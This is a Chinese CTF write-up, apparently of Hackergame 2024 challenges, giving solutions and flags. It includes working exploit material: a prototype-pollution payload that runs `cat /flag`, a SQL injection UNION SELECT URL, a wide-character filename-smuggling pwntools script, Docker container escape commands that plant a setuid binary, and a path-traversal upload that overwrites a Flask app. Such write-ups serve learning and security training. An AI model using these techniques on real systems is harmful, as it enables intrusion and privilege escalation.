




## 签到

地址栏有个参数 `pass=false` ，改成`pass=true`就行了~



## 喜欢做签到的 CTFer 你们好呀

战队的主页是 [NebuTerm](https://www.nebuu.la/) `https://www.nebuu.la`，本能地打了个`ls -la`就能看到有`.flag`文件

`flag{0k_175_a_h1dd3n_s3c3rt_f14g___please_join_us_ustc_nebula_anD_two_maJor_requirements_aRe_shown_somewhere_else}`

拿到这个flag之后，看到没有发送http请求，说明flag已经全在网页源代码里了~扒了一下源码，又发现了一些很奇怪base64，发现是`env`命令对应的，打一下就能看到flag了

`flag{actually_theres_another_flag_here_trY_to_f1nD_1t_y0urself___join_us_ustc_nebula}`



## 比大小王

这道题我最开始想写个python脚本提交请求的，但是莫名总被拦截异常提交，不知道是交得太快还是验证了User-Agent吗？我以为HackerGame都不会限制User-Agent呢

写了个脚本，直接贴到console里就可以了~

````javascript
for (var i = 0; i < 100; i++){
    var result = '<';
    if (state.values[i][0] > state.values[i][1]) {result = '>'}
    state.inputs.push(result);
}
submit(state.inputs)
```
````



`flag{!-4m-TH3-H@CkeR-KING-oF-C0MPArINg-NuMbErs-z0z4}`


## 不宽的宽字符

```python
from pwn import *

io = remote('202.38.93.141', 14202)
io.recvuntil(b'Please input your token: \n')
io.sendline(b'1411:MEQCIAplFMrlOcSGiuyvXbD2viXkZel+YtLmOBzUXj48+rzXAiBrX2C/xRLIxhAn+TJYUsQtGEDzpleulEFWzyijebwTXA==')

io.recvuntil(b"Enter filename. I'll append 'you_cant_get_the_flag' to it:\r\n")
payload = b'Z:\\theflag\x00"'

s = payload.decode('utf-16')
print(s)
u8 = s.encode('utf-8')
print(u8)
print(s.encode('utf-16')[2:])
io.sendline(u8)

print(io.recvall())
```

刚开始我还以为是要用到C++的重载，导致函数对于`char *`和`wchar_t *`的效果不同。结果实际上我想复杂了…做出来都懵了，小A是指用了一个字符的文件名做检验吗？？？


## PowerfulShell

看到官方题解才看到居然这么简单！唯一没想到的就是要用`_1`作为变量名。我试了好久用`${-:$[]:1}`截出来`s`来做变量名一直没成功，哎。

## Node.js is Web Scale

这当然是常见的原型链污染咯~

随便设一个变量`a`，将其`a.__proto__.__proto__.flag`设为`cat /flag`。`a.__proto__`是`String`，再`__proto__`就是`Object`了。而正好题目源代码中的`cmds`就是一个`Object`

```
let cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};
```

所以之后就在访问`cmds.flag`就可以得到`cat /flag`了。再访问`?cmd=flag`就可以拿到flag了~

`flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_dbb8192de6}`


## PaoluGPT

第一小题直接穷举就好咯

第二小题是SQL注入，随便UNION SELECT一下列出来所有的ID在再穷举

```
/view?conversation_id=%27%20UNION%20SELECT%20(SELECT%20GROUP_CONCAT(id)%20FROM%20messages),%272
```

或者可能改一下SQL语句直接查询flag也行吧，但我就没再继续研究了~


## 强大的正则表达式

第一小题其实很好解，但我又想复杂了。最开始一上来就想构造状态机，看到很多人解出这道题才感到不对劲。

可以看到维基百科上 [Divisibility rule - Wikipedia](https://en.wikipedia.org/wiki/Divisibility_rule)

```
If the thousands digit is even, the number formed by the last three digits must be divisible by 16.	254,176: 176.
If the thousands digit is odd, the number formed by the last three digits must be 8 times an odd number.	3408: 408 = 8 x 51.
```

所以说最终的表达式是

```
(0|1|2|3|4|5|6|7|8|9)*(((0|2|4|6|8)(000|016|032|048|064|080|096|112|128|144|160|176|192|208|224|240|256|272|288|304|320|336|352|368|384|400|416|432|448|464|480|496|512|528|544|560|576|592|608|624|640|656|672|688|704|720|736|752|768|784|800|816|832|848|864|880|896|912|928|944|960|976|992))|((1|3|5|7|9)(008|024|040|056|072|088|104|120|136|152|168|184|200|216|232|248|264|280|296|312|328|344|360|376|392|408|424|440|456|472|488|504|520|536|552|568|584|600|616|632|648|664|680|696|712|728|744|760|776|792|808|824|840|856|872|888|904|920|936|952|968|984|1000)))
```


第二小题其实也不复杂，我在StackExchange上找到一个回答 [algorithms - How to convert finite automata to regular expressions? - Computer Science Stack Exchange](https://cs.stackexchange.com/questions/2016/how-to-convert-finite-automata-to-regular-expressions) 按照这个方法即可写出状态机。这一题比较简单因为初始状态和最终状态是相同的，第三小题就稍微困难一些。


第三小题的话，其实可以理解为我们最初出发的状态是`0`，而最终状态是`7`，最后我们要表达的是从`0`到`7`所有的路径。上述链接里的回答好像稍微有一点点错误。

当我们删除了除了`0`和`7`之外的所有状态后，需要将`0->7->0`再合并到`0`中，`7->0->7`也合并到`7`中，最后构造一条`0->7`的路径就可以了。所以与第二小题不同的是

```python
S00 = (machine.M[0][0] | (machine.M[0][7] + machine.M[7][7].star() + machine.M[7][0]))
S77 = (machine.M[7][7] | (machine.M[7][0] + machine.M[0][0].star() + machine.M[0][7]))
sss = S00.star() + machine.M[0][7] + S77.star()
```


## 惜字如金

这道题可是连续三届都出现了！我跟这道题还挺有缘的~连续三年都解出来了

第一题很简单~就是直接补全python就可以了

第二题其实应该是要用线性代数的，但实际上用z3也就可以直接出了。

第三题我想了想，感觉爆破是不太可能的，还需要在考虑考虑。看到题目的代码写了那么一大串告诉你具体的错误位置，但是前提是你能够碰撞上一个已知的CRC，但是已经知道CRC了难道还会不知道这一行的具体内容吗？

呵~还真就是这样！瞄到一眼题目最后的`answer_c`，突然想到它会不会正好也是一个有效的CRC呢？验证了一下发现确实就是这样的。

所以说我们只要构造一些内容，使得这一行的CRC在base85编码后正好等于`answer_c`就可以了，剩下的就是很模板的利用线性代数构造CRC了~

```
flag{C0mpl3ted-Th3-Pyth0n-C0de-N0w}
flag{Succe55fu11y-Deduced-A-CRC-Po1ynomia1}
flag{HAV3-Y0u-3ver-Tr1ed-T0-Guess-0ne-0f-The-R0ws?}
```

第三题的flag真的很讽刺哦~


## 优雅的不等式

害~一看到这一就想起来知乎上刷到过好多这样的问题。

去知乎上搜了搜，看到一片量化调酒师的文章 [【科普】如何优雅地“注意到”关于e、π的不等式 - 知乎](https://zhuanlan.zhihu.com/p/669285539) 照着实现一遍就可以了

出题人还是很良心的hh，没有把长度限制限制得太死，否则如果要用到Pade近似的话，我应该就做不出来了[【注意力进阶教程】利用“Pade近似的插值”构造积分优雅地证明对数函数和反正切函数的有理上下界 - 知乎](https://zhuanlan.zhihu.com/p/736937260)


## 无法获得的秘密

这道题还挺有意思的~最初想着是生成二维码之类的东西，但是看看分辨率感觉还是算了吧。这512K的文件内容是很难在一张截图中全部体现出来的，还是想着要自动化一下操作。

看到了一个用python操作VNC的项目[cair/pyVNC: VNC Client Library for Python](https://github.com/cair/pyVNC/tree/master)，就想着用python连接VNC自动化提取的操作。

但是遇到的问题是，题目给出的是一个websocket连接，pyVNC只支持正常的TCP连接。我知道novnc自己写了一个websockify，那也一定有反向的unwebsockify，再转化回TCP链接。试验了了一下发现确实可行~唯一要注意的就是需要给websocket请求加上自己的Cookie，不然无法正常创建链接。

看到远程环境中有python，那就有思路了！可以写一个脚本读取`/secret`文件，这个脚本可以利用pyVNC直接在远程环境里输入进去。脚本读取文件之后截取出来显示在屏幕上，然后利用pyVNC直接读取屏幕再来识别。

但是我对OCR之类的不太熟悉，就还是想找一个简便的方法，能够利用一些基础的Python代码直接识别屏幕的内容。我想到的方法就是再console中显示彩色方块字符，利用PIL直接读取像素数颜色还是很简单的！

很快我就写了一个PoC，用debian的快捷键打开console并且输入我的helperscript，最终效果还是很酷炫的！

总共使用了8种颜色，所以一个字符可以表示3个比特，一页有3900个字符，但是我没有完全都用上。

因为我怕VNC延迟界面不同步导致传输出错，所以我把最后一行改成了sha256哈希以及当前页码信息。最终只用了3800个字符传输数据，100个字符传输校验码，一页能够传输1425个字节的数据。大概300多页就可以传输完了~



没做出来之前感觉这题有点无聊，但是最后写出来这么一个酷炫的工具还是很有成就感的~


## Docker for Everyone Plus

这道题的ZModem真的有点折磨人了，不知道这是什么上古时期的协议。费了半天劲找到secureCRT能够支持，终于算是知道怎么传输文件了。

第一小题还是比较简单的，只要将外部根目录挂载进docker内部就行了。需要注意的是flag是`/dev/vdb`的软链接，所以要把这个block设备一同挂载进去

```
gunzip hack.tar.gz
sudo docker image load < hack.tar
sudo docker run --rm -u 1000:1000 --ipc=host --device=/dev/vdb -it -v /:/outside hack
```


第二小题可以发现增加了`--security-opt=no-new-privileges`选项，如果真的加载了这个选项是不会有额外权限的，那怎么办呢？

其实这个选项是可以override的，只要再后面再写一遍`--security-opt="no-new-privileges=false"`就可以了


真正增加困难的是，这一次不允许用`-device`选项挂载`/dev/vdb`了，这就意味着我们必须再docker外获得root权限才可以。用`mount`命令研究了一下文件挂载选项，发现大部分的地方都是`ro,nosuid`的，只有`/var/lib/docker`是个例外，这意味着我们可以再docker里访问这个路径，在里面放置一个suid文件来读取flag

```
base64 -d < hack.tar.gz.b64 > hack.tar.gz
gunzip hack.tar.gz
sudo docker image load < hack.tar
sudo docker run --rm --security-opt=no-new-privileges -u 1000:1000 --security-opt="no-new-privileges=false" --ipc=host -it -v /:/outside hack


chmod 755 /outside/var/lib/docker
cp /bin/helper /outside/var/lib/docker
chmod +s /outside/var/lib/docker
```

## 看不见的彼方

第一题我还是用共享内存！和两年前完全一样~

由于文件本身就在`tmpfs`在内存中，使用`mmap`读取文件是不需要额外占用内存空间的。程序各自开辟一块1M的共享内存空间，然后循环互换数据就可以了。


第二题稍微困难一些二，我想到的使用`ftruncate`来截断或者扩展文件。也就是说Alice每传输1M的数据，就将`file`文件截短1M，节省出来的空间用来写`file2`，然而这就导致可能有一些文件传输过去就是倒序的，不过这问题不大，直接在`mmap`的内存空间中倒一遍就行了。

唯一我不太理解的一点是，我用`rename`和`unlink`都失败了？这个目录我是有读写权限的，并不太明白这两个调用为什么会失败，等有时间了再继续研究一下~所幸后来直接开了个临时文件，继续用`ftruncate`的方式把`file`一点点挪成了`file1`。


## ZFS 文件恢复

看到ZFS我最初还是很头疼的，完全不知道ZFS是个什么格式，看了specification之后就更懵了。

搜了一下ZFS恢复数据的工具，找到一个叫UFS Explorer FileRecovery的，能够搜到两个文件，并且显示了文件修改时间等信息。但我看那时间戳乱七八糟的以为是工具有问题，最开始就给忽略了。

用binwalk跑了一下，它搜索到了一个shebang，一看好嘛！正好就是`flag2.sh`直接明文存在在文件中，看了一下代码逻辑是需要读取`flag1.txt`和`flag2.sh`的访问时间和修改时间，回头一看想起来工具里的时间戳。编码之后尝试了一下居然就是正确的！这工具有点强大呢。

binwalk还搜到了一段zlib压缩的内容，解码出来是一段base64，但是其中并没有flag。我这时候就有点迷茫了不知道要怎么办，在`img`文件中找到的对应的偏移量，发现前后确实也有很多跟文件相关的信息（比如工具里显示的修改时间、访问时间以及文件大小）

看着看着愈发觉得zlib数据的大小不太对劲，zlib压缩率还是不低的，怎么这么一大串的zlib才解出来4096个字节？仔细一看，发现末尾有另一个zlib头`789c`，把它提取出来inflate一下，就成功得到了`flag1`。

虽然做出来了这道题，但还有个问题没弄清楚。Specification中列举的压缩算法只有lzjb，但是为什么数据却是zlib压缩的？这俩是一个东西吗？是binwalk识别错了还是说zlib和lzjb的解压算法正好兼容呢？


## 不太分布式的软总线

Dbus这个东西我之前确实没接触过，不过跟着题目学了一下还有点意思hh

第一题找GPT写了段代码，写得还挺对的，编译完交上去直接就过了~

第二题要求传递一个handle，可以利用`pipe()`创建一个管道，并将读取的fd传递过去就行了。不过我才知道Dbus还能实现这种功能？fd都可以跨进程共享的吗

第三题还是问的GPT了hhh，GPT就知道要用`prctl`，知道了这一点也就没什么难度了~


## RISC-V：虎胆龙威

这道题挺有意思的，很早之前就听说一生一芯但一直没有开始参加，这次正好研究一下RISC-V看看。

第一题我可能想复杂了，完全没有想到`bez`还可以继续使用。以为要通过`jr`跳转函数指针的方式来实现分支跳转，我调了好长时间的bug哦。


第二题的话，直接将数据读取到寄存器中排序再写入即可，稍微写写汇编还是死挺简单的。

```python
lines = []

lines.append(".section .text")
lines.append("_start:")

read_ptr = 0xf80
write_ptr = 0xf40
final_ptr = 0xfc0

registers = ['s0', 's1', 's2', 's3', 's4', 's5', 's6', 's7', 's8', 's9', 's10', 's11', 't2', 't3', 't4', 't5']

lines.append(f"    la a0, {hex(read_ptr)}")
lines.append(f"    la a1, {hex(final_ptr)}")

for i in range(16):
    lines.append(f"    lw {registers[i]}, {i * 4}(a0)")

for i in range(0, 16):

    for j in range(i + 1, 16):
        lines.append(f"_sort_{i}_{j}_start:")

        lines.append(f"    bltu {registers[i]}, {registers[j]}, _sort_{i}_{j}_noswap")
        lines.append(f"    mv t0, {registers[i]}")
        lines.append(f"    mv {registers[i]}, {registers[j]}")
        lines.append(f"    mv {registers[j]}, t0")
        lines.append(f"_sort_{i}_{j}_noswap:")
        lines.append(f"_sort_{i}_{j}_end:")
    lines.append(f"    sw {registers[i]}, {i * 4}(a1)")

lines.append("_end:")
lines.append("    j _end")

with open("riscv.S", "w") as f:
    f.write("\n".join(lines))
    f.write("\n")
    f.close()

```


## 关灯

一看这道题，就想起来了两三年前的等灯等灯，当时那道题我也全都解出来了！

这道题的代码可能读着比较费劲，但大致意思就是，每一个单元里的灯，收到前后上下左右以及自身的开关控制，奇数个开关就是1，偶数个开关就是0。这个类型的题目一看就是线性代数，把整个矩阵展开成一维的向量，每个开关影响的灯泡设为1，作为线性空间中的基，设一个`GF(2)`里的矩阵`solve_left`就可以直接求解出前三个小问。

第四小题就需要一些额外的推导了，总共有`n^3 = 149^3 = 3307949`个位置，在用矩阵求解就不太现实了。我们可以先从一维二维的问题推导一下。大致意思就是，每个格子是自己上方倒T字型区域内的开关状态以及自身正上方最终状态之和。如果上述的位置开关状态全都已知，那么可以很容易的递推下方的所有状态。但问题就是最上方一行如何求解呢？

根据递推规则，我们可以假设矩阵的上下前后左右都应该是0，所以就想象再矩阵的外层在额外包裹一圈0。我们可以随机选择一组最上方的状态，如果我们选择的状态不正确，递推到最下方再下一层的时候，肯定就会发现我们额外想象包裹的一层并不全为0。对于一维和二维得到问题，我们还可能可以穷举一下找到正确的初始号状态。但是对于第四问，我们需要穷举整整最上层`149*149`的全部状态，这可是`2^(149*149)`，这是个6684位十进制的数字，可是有点太恐怖了。

我们仍然可以利用线性代数来求解这个问题，想象一下翻转最顶层某个位置的开关状态，它的翻转会对整个矩阵产生怎样过的的影响呢？传递到我们包裹的最底层，可能导致其中一些位置的值发生了翻转。这样翻转的影响也是可以线性组合的，也就是说如果翻转组顶层的A位置，导致底层的0,1,4位置发生了偏转；翻转顶层的B位置到之后底层的1,4,7翻转，那么同时翻转A和B就回导致0,7发生翻转。

此时我们只要构建一个`149*149 = 22201`维的矩阵，并分别算出翻转每个位置，对底层产生的影响放入矩阵中。如果我们假设的初始状态导致最底层不全为0，那我们可以把最底层带入矩阵求解，就能找到一个组合，正好能够将所有的1翻转为0。

但是这时候仍然不够快，Sagemath甚至要花好几个小时才能加载全部的向量。但是这都不是问题，并没有数量级上的差距。我是编写了一个C语言的程序开`-O3`优化速度还是非常快的，能够很快算出完整的矩阵，但是该如何求解呢？高斯消元法 的复杂度是`O(n^3)`也是无法在10秒内完成的，因此需要提前计算逆矩阵。

写了一版C语言求逆矩阵的代码，运行起来发现不太对劲，这矩阵不是满秩的？这就还需要额外一个步骤，删除矩阵中的非自由分量以及对应的向量，将其降为满秩矩阵之后再求逆。

我们拿到最底层的向量之后，就可以把非自由的分量全部删去，再与逆矩阵相乘得到一组解，同时再把非自由向量插回去（要满足相关的约束，其实全0就可以了）

python还是真的不够快，最后我得额外让pwntools与我写的一个C语言程序交互，总算是成功做出了这道题。


## 禁止内卷

上传文件的时候，给文件名前加上`../`就可以穿透目录，上传到任意的地方去。由于flask开了reload，如果我们覆盖flask的`app.py`，就可以让我们上传的`app.py`运行起来。修改一下`app.py`，加上这一段就可以愉快地下载flag了！

```python
@app.route("/download", methods=["GET"])
def download_file():
    # Get the filename parameter from the query string
    filename = request.args.get("filename")
    
    # Check if the filename is provided
    if not filename:
        return "Filename parameter is required.", 400

    # Ensure the file exists and is an absolute path
    if not os.path.isabs(filename) or not os.path.isfile(filename):
        return "Invalid file path.", 404

    try:
        # Send the file for download
        return send_file(filename)
    except Exception as e:
        # Handle any exceptions that might occur
        return str(e), 500
```

## 零知识数独

第一问我我我居然是手动填的？！看了看这稀烂的js代码，我居然不知道要如何直接拿flag。

第二题就是零知识证明的一个入门了~自己算出了矩阵之后写好`input.json`，依次执行即可

```bash
snarkjs calculatewitness sudoku.wasm input.json

snarkjs proof sudoku.zkey witness.wtns proof.json public.json

snarkjs groth16 verify verification_key.json public.json proof.json
```


第三题看了一下代码，发现`gt_zero_signals[i][j] <-- (solved_grid[i][j] > 0);`这一行跟其他地方不一样，搜索了一下发现，`<==`是加入了证明的约束；而`<--`是没有加入要证明的计算规则。也就是说`<--`只是告知prover要这样算，但是verifier从proof中并不能确信prover一定是这样计算的。

有了这个思路就好办了~我们可以直接改成`gt_zero_signals[i][j] <-- 1;`，通过这个新的circom生成witness，再利用witness证明生成proof即可。

虽然做出来了这道题，但我感觉还是感觉直接互换witness是一个很冒险的操作，但神奇的是这两个circom居然就兼容了。否则的话也要按照 [Hacking Underconstrained Circom Circuits With Fake Proofs - RareSkills](https://www.rareskills.io/post/underconstrained-circom) 解析witness里的symbol，那可是太费劲了。

